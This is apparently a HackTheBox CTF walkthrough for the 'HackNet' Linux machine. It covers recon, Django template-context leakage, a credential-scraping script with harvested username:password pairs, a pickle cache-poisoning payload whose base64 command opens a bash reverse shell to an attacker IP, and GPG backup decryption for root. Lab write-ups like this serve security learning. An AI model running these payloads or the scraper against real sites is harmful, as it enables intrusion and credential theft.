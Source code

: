 # HackNet 

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

## 🏁 Summary of Attack Chain

| Step | User / Access                   | Technique Used                                         | Result |
| :--- | :------------------------------ | :----------------------------------------------------- | :----- |
| 1    | `N/A`                           | **Nmap / Recon**                                       | Discovered open ports: `22` (SSH) and `80` (HTTP — nginx). App identified as a Django-based social network (HackNet). |
| 2    | `N/A`                           | **App fingerprinting (Django)**                        | Confirmed Django templating behavior (DTL) and endpoints for user actions: register, like, likes listing, profile edits. |
| 3    | `attacker (web)`                | **Template-context leakage (rendered `users`)**        | Controlled a username to inject `{{ users }}` and `{{ users.values }}` into a post/like rendering, leaking internal QuerySet / field dicts in the likes list. |
| 4    | `attacker (web)`                | **Automated scraping of leaked fields**                | Scripted likes + scrape of `<img title="...">` content to extract `'email'` and `'password'` fields from `users.values`. Collected many site credentials. |
| 5    | `attacker`                      | **Credentials enumeration / access**                   | Identified valid credentials (some site usernames mapped to mailbox prefixes). Used these to access site functionality and locate file paths / user-owned files (`user.txt`). |
| 6    | `attacker (www-data?)`          | **Cache poisoning — Django FileBasedCache + Pickle**   | Found `@cache_page(60)` in `explore` view. Generated a malicious pickle payload, wrote it into `.djcache` files, then triggered deserialization to achieve RCE (reverse shell). |
| 7    | `sandy` (local user discovered) | **Post-exploitation enumeration — discover user files & keys** | After RCE, enumerated web and home directories. Found `sandy` user and discovered `armored_key.asc` (GPG private key) and encrypted backup `.gpg` files in `/var/www/HackNet/backups`. |
| 8    | `attacker (with imported key)`  | **GPG private key import & bulk decrypt**              | Imported the `armored_key.asc` and used the passphrase hint to decrypt backup `.gpg` files. Extracted SQL/backup contents and plaintext credentials (database passwords, root credentials). |
| 9    | `root`                          | **Credential reuse / SSH login → root**                | Located credentials in decrypted backups (or found SSH root key) and authenticated as `root`. Retrieved `root.txt`. |

![Map](Pictures/htb_hacknet_Mind_Map.png)

## Nmap

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN]
❯ nmap hacknet.htb -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: HackNet - social network for hackers
```

> Check the technology stack using Django



## Django — Application Overview

* Register a user and you can perform operations:

  * Modify personal information (change name, signature, upload avatar)
  * Leave a message to others/yourself
  * Like others

* Note: In this environment we will not consider file uploads.

### Django Template Engine (DTL) notes

* Django default template (DTL) does **not** execute Python expressions.
* Expressions like `{{7*7}}`, `{{os.environ}}`, `{{().__class__}}` will not execute.
* DTL only renders variables present in the template context (e.g., `{{ user }}`, `{{ request }}`, `{{ settings.DEBUG }}`).
* True SSTI requires a template engine that executes expressions (for example Jinja2).

> In pure DTL mode, you can only leak context variables — not run system commands — unless the app uses a different template engine.



## Observed SSTI-like leakage via user-controlled fields

* Some user homepages show blocked information. Changing the username to `{{ users }}` renders the `users` variable in a likes list.

![Code](Pictures/htb_hacknet_user.png)

Example in source:

```
<QuerySet [
    <SocialUser: cyberghost>,
    <SocialUser: shadowcaster>,
    <SocialUser: glitch>,
    <SocialUser: netninja>,
    <SocialUser: exploit_wizard>,
    <SocialUser: whitehat>,
    <SocialUser: deepdive>,
    <SocialUser: virus_viper>,
    <SocialUser: brute_force>,
    <SocialUser: {{ users }}>
]>
```

* Use `{{ users.values }}` to render a list of field dictionaries for users in the likes list.

![users](Pictures/htb_hacknet_user_values_ssti.png)

* The rendered users list is only for the current post's likes — you need to like posts and then check the likes list.



## Automated credential harvesting script

* The following Python script automates liking posts and scraping the likes pages for leaked `email` and `password` fields inside rendered HTML (often inside `img` title attributes).

```python
import re
import requests
import html

url = "http://hacknet.htb"
headers = {
    'Cookie': "csrftoken=uXXXXXXXXXXXXXXXXXXXXXXXXXXXf; sessionid=XXXXXXXXXXXXXXXXXXXXXXXXXXX"
}

all_users = set()

for i in range(1, 31):

    requests.get(f"{url}/like/{i}", headers=headers)

    text = requests.get(f"{url}/likes/{i}", headers=headers).text


    img_titles = re.findall(r'<img [^>]*title="([^"]*)"', text)
    if not img_titles:
        continue
    last_title = html.unescape(img_titles[-1])


    if "<QuerySet" not in last_title:
        requests.get(f"{url}/like/{i}", headers=headers)
        text = requests.get(f"{url}/likes/{i}", headers=headers).text
        img_titles = re.findall(r'<img [^>]*title="([^"]*)"', text)
        if img_titles:
            last_title = html.unescape(img_titles[-1])

    
    emails = re.findall(r"'email': '([^']*)'", last_title)
    passwords = re.findall(r"'password': '([^']*)'", last_title)

   
    for email, p in zip(emails, passwords):
        username = email.split('@')[0]  
        all_users.add(f"{username}:{p}")


for item in all_users:
    print(item)
```

* Example output (usernames:passwords) after running the script:

```
chma:chma123
zero_day:Zer0D@yH@ck
glitch:Gl1tchH@ckz
shadowmancer:Sh@d0wM@ncer
virus_viper:V!rusV!p3r2024
stealth_hawk:St3@lthH@wk
cryptoraven:CrYptoR@ven42
rootbreaker:R00tBr3@ker#
asd:asd
netninja:N3tN1nj@2024
shadowwalker:Sh@dowW@lk2024
phreaker:Phre@k3rH@ck
datadive:D@taD1v3r
codebreaker:C0d3Br3@k!
test:test
z0n:z0n
shadowcaster:Sh@d0wC@st!
mikey:<Find me>
exploit_wizard:Expl01tW!zard
whitehat:Wh!t3H@t2024
trojanhorse:Tr0j@nH0rse!
packetpirate:P@ck3tP!rat3
brute_force:BrUt3F0rc3#
hexhunter:H3xHunt3r!
bytebandit:Byt3B@nd!t123
blackhat_wolf:Bl@ckW0lfH@ck
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
deepdive:D33pD!v3r
```

![Leak](Pictures/htb_hacknet_user_values.png)

* Note: Some usernames may not map directly to system users (e.g., SSH logins), but email prefixes are valid site usernames.

![Password](Pictures/htb_hacknet_mikey_ssh_pass.png)

![SSH_Login](Pictures/htb_hacknet_user_flag.png)


## FileBasedCache — Cache exploitation (Django)

* In the app source we find the `explore` view (decorated with `@cache_page(60)`), which stores rendered results in Django's cache directory.

![www](Pictures/htb_hacknet_www.png)
![Cache](Pictures/htb_hacknet_django.png)


```python
@cache_page(60)
def explore(request):
    if not "email" in request.session.keys():
        return redirect("index")

    session_user = get_object_or_404(SocialUser, email=request.session['email'])

    page_size = 10
    keyword = ""

    if "keyword" in request.GET.keys():
        keyword = request.GET['keyword']
        posts = SocialArticle.objects.filter(text__contains=keyword).order_by("-date")
    else:
        posts = SocialArticle.objects.all().order_by("-date")

    pages = ceil(len(posts) / page_size)

    if "page" in request.GET.keys() and int(request.GET['page']) > 0:
        post_start = int(request.GET['page'])*page_size-page_size
        post_end = post_start + page_size
        posts_slice = posts[post_start:post_end]
    else:
        posts_slice = posts[:page_size]

    news = get_news()
    request.session['requests'] = session_user.contact_requests
    request.session['messages'] = session_user.unread_messages

    for post_item in posts:
        if session_user in post_item.likes.all():
            post_item.is_like = True

    posts_filtered = []
    for post in posts_slice:
        if not post.author.is_hidden or post.author == session_user:
            posts_filtered.append(post)
        for like in post.likes.all():
            if like.is_hidden and like != session_user:
                post.likes_number -= 1

    context = {"pages": pages, "posts": posts_filtered, "keyword": keyword, "news": news, "session_user": session_user}

    return render(request, "SocialNetwork/explore.html", context)
```

* `cache_page(60)` means the rendered view is cached for 60 seconds — Django's FileBasedCache (or other backends) writes serialized return values to files.

* **Security risk:** if the cache directory is writable by an attacker and Django reads pickled content directly, an attacker can place a malicious pickle file that will be deserialized and executed, leading to RCE.


## Exploitation plan — cache poisoning via pickle

* Steps:

  1. Visit `/explore` as an authenticated user to generate a cache file.
  2. Construct a malicious pickle payload that executes a command on deserialization.
  3. Write the payload into the cache file(s) (e.g., `/var/tmp/django_cache/*.djcache`).
  4. Re-access `/explore` to trigger deserialization and execute the payload.

### Pickle payload generator (Python)

```python
import pickle
import base64
import os
import time



cache_dir = "/var/tmp/django_cache"
cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjYvNDQ0NCAwPiYxKSAm|base64 -d|bash"



class RCE:
    def __reduce__(self):
        return (os.system, (cmd,),)

payload = pickle.dumps(RCE())



for filename in os.listdir(cache_dir):
    if filename.endswith(".djcache"):
        path = os.path.join(cache_dir, filename)
        try:
            os.remove(path)  
        except:
            continue
        with open(path, "wb") as f:
            f.write(payload)  
        print(f"[+] Written payload to {filename}")
```

![Code_Execution](Pictures/htb_hacknet_RCE.png)

* The `cmd` above decodes a base64 payload that runs a reverse shell to the attacker (update IP/PORT as needed).
* After writing the malicious `.djcache` files, requesting `/explore` will load the cached content and deserialize the malicious pickle, executing the command.

![djcache](Pictures/htb_hacknet_exploit.png)

## Privilege escalation / Gaining root

* After successful exploitation you obtain the `sandy` user shell (user found in website files).

![Sandy_Shell](Pictures/htb_hacknet_sandy.png)

* Inside `sandy`'s directory you find GPG private key(s) and backup files.

![Key](Pictures/htb_hacknet_keys.png)

### GPG private key: `armored_key.asc`

![Key](Pictures/htb_hacknet_file_transfer.png)
![key](Pictures/htb_hacknet_file_receievd.png)
![Pass](Pictures/htb_hacknet_sandy_pass.png)

* The key is armored and may be password-protected. The noted passphrase in findings: `Place Me here` (observed in `mikey` entry above).

* Example flow: import private key, decrypt backup `.gpg` files, inspect database backups to recover credentials and/or secrets.



## Batch decryption script (bash)

```bash
#!/bin/bash



KEY_PATH="$HOME/.gnupg/private-keys-v1.d/armored_key.asc"
BACKUP_DIR="/var/www/HackNet/backups"
OUTPUT_DIR="/tmp"
PASSPHRASE="Place Me here" 

# 导入私钥
gpg --import "$KEY_PATH"

# 批量解密
for file in "$BACKUP_DIR"/*.gpg; do
    filename=$(basename "$file" .gpg)
    outpath="$OUTPUT_DIR/$filename.sql"
    echo "[*] Decrypting $file → $outpath"
    if [ -n "$PASSPHRASE" ]; then
        gpg --batch --yes --passphrase "$PASSPHRASE" --pinentry-mode loopback -o "$outpath" -d "$file"
    else
        gpg --batch --yes -o "$outpath" -d "$file"
    fi
done

echo "[*] Done. Decrypted files are in $OUTPUT_DIR"
```

![Backup](Pictures/htb_hacknet_exp.png)

* After decryption, pipe or grep the SQL files to find credentials (e.g., `cat backup0* | grep password`).

![Root_pass](Pictures/htb_hacknet_pass_sa_backup.png)

![Root_Flag](Pictures/htb_hacknet_Root_flag.png)

## Final notes / Observations

* The combination of template leakage (rendered `users` context) and writable cache allowed information disclosure and a path to RCE via pickle-based cache poisoning.
* The presence of backups and a private GPG key in a user directory allowed pivoting to root by decrypting backups and extracting credentials.
* Always ensure cache directories are non-writable by untrusted users and avoid deserializing untrusted data. Use safe serializers (JSON) for caching where possible.


**!Pwned Hacknet**

-->